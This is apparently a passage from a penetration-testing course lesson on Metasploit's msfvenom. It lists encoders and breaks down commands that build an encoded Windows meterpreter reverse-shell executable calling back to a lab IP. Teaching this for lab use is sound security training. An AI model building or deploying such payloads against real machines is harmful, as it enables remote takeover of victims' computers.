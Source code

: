      - Run the following command: `msfvenom -l encoders`

     - The output lists the encoders, as the following image shows:

    ![A screenshot depicts the results of the command.](Images/MSV_3.png)

    - Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. In a single command, `msfvenom` does both actions and more.


#### msfvenom Command Structure

Now, we'll cover the basics of the `msfvenom` custom payload command options.

- Note the following command:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444`

   - Syntax breakdown:

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-a x86`: Designates the architecture we will use. The default is `x86`.
      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.
      - `-f exe`: Indicates the file type to create (in this case, `.exe`).
      - `-o /tmp/malware.exe`: Creates an output file, specifying the file name (`malware.exe`) and location (inside the `/tmp` directory).

- Next, refer to the command that we used in the previous lesson, and try to break it down: 

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.


In the next activity, you will build your own custom command in an exploitation attack.

### 03. msfvenom Payloads (0:20)

We will now generate a custom payload with `msfvenom` and use it to gain a Meterpreter shell. 
